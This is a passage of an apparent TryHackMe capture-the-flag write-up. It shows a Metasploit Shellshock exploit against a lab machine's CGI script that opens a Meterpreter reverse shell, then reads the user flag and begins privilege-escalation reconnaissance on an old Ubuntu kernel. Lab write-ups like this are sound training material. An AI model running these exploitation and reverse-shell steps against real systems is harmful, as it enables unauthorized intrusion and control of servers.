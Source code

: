 ~~~
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.4         yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rhost 10.10.202.169
rhost => 10.10.51.105
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST 10.xx.xx.xx
LHOST => 10.9.156.68
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.xx.xx.xx:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.202.169
[*] Meterpreter session 1 opened (10.xx.xx.xx:4444 -> 10.10.202.169:38928) at 2020-10-21 20:42:11 +0200

meterpreter > getuid
Server username: no-user @ ubuntu (uid=33, gid=33, euid=33, egid=33)
~~~

From here on we can open a shell and grab the user flag:
~~~
meterpreter > shell
Process 1503 created.
Channel 1 created.
$ cat /home/ryan/user.txt	
THM{xxxxxxxxxxxxxxxxxxxxxxxxx}
~~~

For the privilege Escalation we note that we are on a quite old Ubuntu:
~~~
$ uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.1 LTS"
~~~
